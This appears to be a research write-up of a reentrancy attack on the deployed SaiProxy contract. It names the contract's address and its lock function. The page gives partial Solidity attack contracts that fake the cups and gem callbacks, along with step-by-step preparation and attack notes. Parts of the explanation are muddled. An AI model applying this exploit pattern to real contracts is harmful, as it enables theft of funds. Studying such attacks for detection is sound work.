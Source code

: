 #########
Attack 01
#########

**Contract Name**

SaiProxy

**Contract Address**

0x526af336D614adE5cc252A407062B8861aF998F5

**Transaction Count**

9987

**Invovled Ethers**

107172.49 Ethers

**Length of the Call Chain**

4 external function

**Victim Function**

``lock``

**Attack Mechanisim**

Attack code:
::

    contract TubInterface {
        constructor() payable {}
        SaiProxy s;
        address victim;
        bytes32 temp;
        address gemp;
        function setVictim(address _addr, address _gem) {
            s = SaiProxy(_addr);
            victim = _addr;
            gemp = _gem;
        }
        ...
        function cups(bytes32 cup) public returns (address, uint, uint, uint){
            return (victim, 0, 0, 0);
        }
        function gem() public view returns (TokenInterface){
            return(TokenInterface(gemp));
        }
        ...
    }

    contract TokenInterface {
        bytes32 temp;
        address tubbb;
        SaiProxy s;
        TubInterface tub = new TubInterface();
        function setVictim(address _addr, address _tub) {
            s = SaiProxy(_addr);
            tubbb = _tub;
        }
        constructor() payable {}
        ...
        function deposit() public payable{
            s.lock.value(1 ether)(tubbb, temp);
                //s.open(this);
        }
        ...
    }

Attacked code:
::

    contract SaiProxy is DSMath {
        ...
        function lock(address tub_, bytes32 cup) public payable {
            if (msg.value > 0) {
                TubInterface tub = TubInterface(tub_);

                (address lad,,,) = tub.cups(cup);
                require(lad == address(this), "cup-not-owned");

                tub.gem().deposit.value(msg.value)();
                ...
            }
        }
    }

In this case, the goal of our reentrancy is ``tub.gem().deposit.value(msg.value)();`` in the victim code. To reach our goal we need pass three conditions. Firstly we need to make sure the *msg.value* is greater than 0. Next we need to declare a new ``TuberInterface`` instance and call its ``cups`` function to return a address to the variable ``lad``. Last, we need to make sure the address stored in `lad` equals to the address of the victim contract.

**Preparation.** We call ``setVictim`` function in attack code to set the address of victim code to the variable ``_addr`` and set the address of the other attack contract ``TokenInterface`` to ``_gem``. Next we call the other ``setVictim`` function in contract ``TokenInterface`` then set the address of victim code to ``_addr`` and set ``tubbb`` an address the same as ``_addr``. 

**Attack.** The attacker call `deposit` function, it calls ``lock`` function in victim contract.  The ``if`` condition is satisfied because we our call is appended by ``.value``. Next, the contract initialize  an instance of the contract ``TubInterface`` and call ``cup`` to get the address. Unfortunately, the function involved in this attack is well manipulated and we won't let it fail. Then the contract checks whether the ``lad`` equals to the address of the victim contract. It doesn't work. We finally get to the key statement ``tub.gem().deposit`` which calls back to the `gem` function in attacker's contract. Hence, a call loop is formed and we achieved a *Reentrancy* attack.